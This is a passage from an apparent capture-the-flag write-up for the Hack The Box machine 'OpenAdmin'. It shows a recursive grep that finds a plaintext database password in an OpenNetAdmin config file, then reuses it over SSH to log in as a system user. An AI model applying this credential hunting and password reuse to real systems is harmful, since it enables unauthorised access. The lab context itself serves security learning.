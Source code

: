 ```
        $ona_contexts[$context_name]['databases']['1']['db_type']     = $db_context[$type] [$context_name] ['secondary'] ['db_type'];
        $ona_contexts[$context_name]['databases']['1']['db_host']     = $db_context[$type] [$context_name] ['secondary'] ['db_host'];
        $ona_contexts[$context_name]['databases']['1']['db_login']    = $db_context[$type] [$context_name] ['secondary'] ['db_login'];
        $ona_contexts[$context_name]['databases']['1']['db_passwd']   = $db_context[$type] [$context_name] ['secondary'] ['db_passwd'];
        $ona_contexts[$context_name]['databases']['1']['db_database'] = $db_context[$type] [$context_name] ['secondary'] ['db_database'];
        $ona_contexts[$context_name]['databases']['1']['db_debug']    = $db_context[$type] [$context_name] ['secondary'] ['db_debug'];
        $ona_contexts[$context_name]['description']   = 'Default data context';
        $ona_contexts[$context_name]['context_color'] = '#D3DBFF';
    }

```

```
$ grep -n -iRI "db_passwd"
plugins/ona_nmap_scans/install.php:153:        mysql -u {$self['db_login']} -p{$self['db_passwd']} {$self['db_database']} < {$sqlfile}</font><br><br>
include/functions_db.inc.php:102:        $ona_contexts[$context_name]['databases']['0']['db_passwd']   = $db_context[$type] [$context_name] ['primary'] ['db_passwd'];
include/functions_db.inc.php:108:        $ona_contexts[$context_name]['databases']['1']['db_passwd']   = $db_context[$type] [$context_name] ['secondary'] ['db_passwd'];
include/functions_db.inc.php:150:            $ok1 = $object->PConnect($self['db_host'], $self['db_login'], $db['db_passwd'], $self['db_database']);
local/config/database_settings.inc.php:13:        'db_passwd' => 'n1nj4W4rri0R!',
```

ok, now we're moving

```
$ ssh -l joanna openadmin.htb
Warning: Permanently added 'openadmin.htb' (ED25519) to the list of known hosts.
joanna@openadmin.htb's password:
Permission denied, please try again.
joanna@openadmin.htb's password:

conor@pride:~/git/ctf-meta/htb/machines
 6:04.56 [31232] $ ssh -l jimmy openadmin.htb
Warning: Permanently added 'openadmin.htb' (ED25519) to the list of known hosts.
jimmy@openadmin.htb's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug  9 00:05:00 UTC 2022

  System load:  0.08              Processes:             176
  Usage of /:   30.9% of 7.81GB   Users logged in:       0
  Memory usage: 14%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

```